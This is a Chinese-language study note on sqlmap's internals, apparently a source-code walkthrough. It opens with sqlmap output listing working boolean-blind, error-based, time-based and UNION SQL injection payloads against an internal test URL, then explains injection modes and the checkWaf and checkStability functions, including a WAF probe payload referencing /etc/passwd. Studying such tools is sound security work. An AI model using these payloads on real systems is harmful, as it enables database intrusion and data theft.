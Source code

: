 结果：sqlmap identified the following injection point(s) with a total of 51 HTTP(s) requests:

```
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=77 AND 3000=3000&limit=20&page=1

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=77 AND (SELECT 1418 FROM(SELECT COUNT(*),CONCAT(0x716a6a7871,(SELECT (ELT(1418=1418,1))),0x7178626b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&limit=20&page=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (SLEEP)
    Payload: id=77 OR SLEEP(5)&limit=20&page=1

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: id=77 UNION ALL SELECT NULL,NULL,CONCAT(0x716a6a7871,0x56686d4b7a45524a786e646977705a53796976497946616e58647064464644635a716c63706b4d44,0x7178626b71),NULL,NULL,NULL-- feNc&limit=20&page=1


Target	URL	Place	Parameter	Technique(s)	Note(s)
http://172.16.8.4:8890/api/brand/product?id=77&limit=20&page=1	GET	id	BETU	
```
---

sqlmap支持五种不同的**注入模式**：

- 基于布尔的盲注，即可以根据返回页面判断条件真假的注入；

- 基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断；

- 基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中；

- 联合查询注入，可以使用union的情况下的注入；

- 堆查询注入，可以同时执行**多条语句**的执行时的注入。

---


## checkWaf
checkWaf()是**检测是否有WAF**,检测方法是NMAP的[http-waf-detect.nse](http://seclists.org/nmap-dev/2011/q2/att-1005/http-waf-detect.nse)。

比如页面为index.php?id=1，那现在添加一个随机变量index.php?id=1&aaa=2，设置paoyload类似为AND 1=1 UNION ALL SELECT 1,2,3,table_name FROM information_schema.tables WHERE 2>1-- ../../../etc/passwd，如果没有WAF，页面不会变化，如果有WAF，因为payload中有很多敏感字符，大多数时候页面都会发生改变。
具体通过thirdparty/identywaf/identYwaf.py 去判断是哪个waf，原理应该是通过**正则去匹配特征**

## checkStability
checkStability 这个函数检查URL内容是否稳定，**在每个请求中两次请求相同的页面，并有一个小的延迟**，以假定它是稳定的。如果请求相同的页面时页面的内容不同，那么动态性可能取决于其他参数，比如实例字符串匹配
